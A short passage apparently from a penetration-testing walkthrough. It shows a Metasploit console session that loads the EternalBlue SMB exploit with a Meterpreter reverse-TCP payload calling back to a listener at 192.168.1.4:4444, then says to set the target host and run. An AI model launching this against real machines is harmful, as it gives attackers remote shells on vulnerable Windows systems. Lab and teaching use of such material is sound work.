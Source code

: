 ```js 
msf > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://do
                                             cs.metasploit.com/docs/using-metas
                                             ploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to u
                                             se for authentication. Only affect
                                             s Windows Server 2008 R2, Windows
                                             7, Windows Embedded Standard 7 tar
                                             get machines.
   SMBPass                         no        (Optional) The password for the sp
                                             ecified username
   SMBUser                         no        (Optional) The username to authent
                                             icate as
   VERIFY_ARCH    true             yes       Check if remote architecture match
                                             es exploit Target. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, W
                                             indows Embedded Standard 7 target
                                             machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit
                                              Target. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Emb
                                             edded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thre
                                        ad, process, none)
   LHOST     192.168.1.4      yes       The listen address (an interface may be
                                         specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Let's Set `RHOST` to our target machine and run
